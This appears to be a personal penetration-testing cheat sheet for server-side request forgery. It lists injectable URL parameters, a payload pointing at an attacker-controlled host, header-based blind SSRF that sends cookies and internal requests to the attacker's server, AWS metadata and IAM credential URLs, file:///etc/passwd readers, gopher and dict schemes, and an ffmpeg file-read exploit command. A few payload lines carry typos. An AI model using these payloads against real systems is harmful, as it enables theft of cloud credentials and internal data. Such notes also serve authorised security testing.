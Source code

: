 # SSRF

payload : `www.attacker.com/?`    <-- https://hackerone.com/reports/2442626

Use [[Certbot]] to make our http server to https to allow target website to ping our attacker hosted website.

SSRF via SVG file upload

Spider a domain in burpsuite. Payloads are at down
Search for `url=` `request=` `load=` `redirect=` `fetch=` `page=` `site=` `open=` `entry=` `target=` `Destination=` `Uri=` `file=`

### Blind SSRF

X-Forwarded-Host, X-Forwarded-For, X-HOST etc,

Add this header in the request followed by our attacker URL. 

it will send cookies, internal requests, IP. To our server.

SVG  `https://github.com/allanlw/svg-cheatsheet`

##### AWS Meta Data Service 
SSRF -> AWS Metadata Service
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
`<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>`
`<img src="file:///etc/passwd">`

```
http:// 169.254.169.254/latest/meta—data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta—data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentialsl/PhotonInstance
```

SSRF to Accessing Cloud Meta Data 

https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

##### SSRF to LFI 

`file://etc/passwd`

Double Encode URL to avoid black listing ()


---

### URL Schemes to Check 

```
file://
dict://
sftp://
ldap://
ldaps://
ldapi://
tfpt://
gopher://
```

### SSRF to XSS

Host a file in attacker server or any where publicly, give that to make an XSS. (the file will contain XSS payload).

### SSRF to FFMPEG

if any Video upload functionality is there in the website we can exploit this.

https://github.com/neex/ffmpeg-avi-m3u-xbin

`./gen_xbin_avi.py file://<filename> file_read.avi`

## Payloads

```
?dest={target} 
?redirect={target} 
?uri={target} 
?path={target} 
?continue={target} 
?url={target} 
?window={target} 
?next={target} 
?data={target} 
?reference={target} 
?site={target}
?html={target} 
?val={target} 
?validate={target} 
?domain={target} 
?callback={target} 
?return={target} 
?page={target} 
?feed={target} 
?host={target} 
?port={target} 
?to={target} 
?out={target} 
?view={target} 
?dir={target}
```